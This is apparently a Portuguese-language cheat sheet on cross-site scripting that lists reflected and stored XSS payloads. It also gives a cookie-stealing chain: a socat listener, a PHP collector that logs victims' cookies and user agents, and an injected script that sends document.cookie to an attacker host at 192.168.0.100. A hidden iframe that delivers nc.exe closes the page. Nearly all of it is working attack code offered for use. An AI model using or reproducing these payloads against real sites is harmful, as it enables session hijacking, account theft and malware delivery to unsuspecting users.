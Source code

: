 # XSS

## XSS Reflected
<script>alert('Teste XSS')</script>

## XSS Stored
Possui um impacto maior pois o script fica salvo na página e toda vez que essa página é acessada o script é executado.

<script>alert(document.cookie)</script>
<script>new Image().src="http://192.168.0.100:8081/";</script>
<script>new Image().src="http://192.168.0.100:8081/";</script>

Use o socat para receber as conexões:
socat TCP-LISTEN:8081,reuseaddr,fork -

### Coletando cookies:

Coletor de cookie:
```php
\\código no servidor
<?php
    $cookie=$_GET['cookie'];
    $useragent=$_SERVER['HTTP_USER_AGENT'];
    $file=fopen('cookie.txt','a');
    fwrite($file,"USER AGENT:$useragent || COOKIE:$cookie \n");
    fclose($file);
?>
```
*Necessário ter um arquivo cookie.txt criado.*

Script para ser executado no alvo:
<script>new Image().src="http://192.168.0.100:8081/coletor.php?cookie="+document.cookie;</script>

### Download de arquivo
<iframe>src="http://192.168.0.100:8081/nc.exe" height="0" width="0"</iframe>
